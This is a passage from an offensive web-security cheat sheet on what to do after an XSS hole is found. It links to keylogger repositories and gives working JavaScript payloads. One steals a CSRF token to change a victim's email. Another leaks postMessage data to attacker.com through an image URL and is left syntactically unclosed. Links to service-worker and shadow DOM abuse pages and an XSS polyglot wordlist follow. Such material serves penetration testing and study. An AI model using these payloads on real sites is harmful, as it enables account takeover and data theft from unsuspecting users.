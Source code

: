 ### Keylogger

Just searching in github I found a few different ones:

* [https://github.com/JohnHoder/Javascript-Keylogger](https://github.com/JohnHoder/Javascript-Keylogger)
* [https://github.com/rajeshmajumdar/keylogger](https://github.com/rajeshmajumdar/keylogger)
* [https://github.com/hakanonymos/JavascriptKeylogger](https://github.com/hakanonymos/JavascriptKeylogger)
* You can also use metasploit `http_javascript_keylogger`

### Stealing CSRF tokens

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

### Stealing PostMessage messages

```markup
<img src="https://attacker.com/?" id=message>
<script>
 window.onmessage = function(e){
 document.getElementById("message").src += "&"+e.data;
</script>
```

### Abusing Service Workers

{% content-ref url="abusing-service-workers.md" %}
[abusing-service-workers.md](abusing-service-workers.md)
{% endcontent-ref %}

### Accessing Shadow DOM

{% content-ref url="shadow-dom.md" %}
[shadow-dom.md](shadow-dom.md)
{% endcontent-ref %}

### Polyglots

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss_polyglots.txt" %}

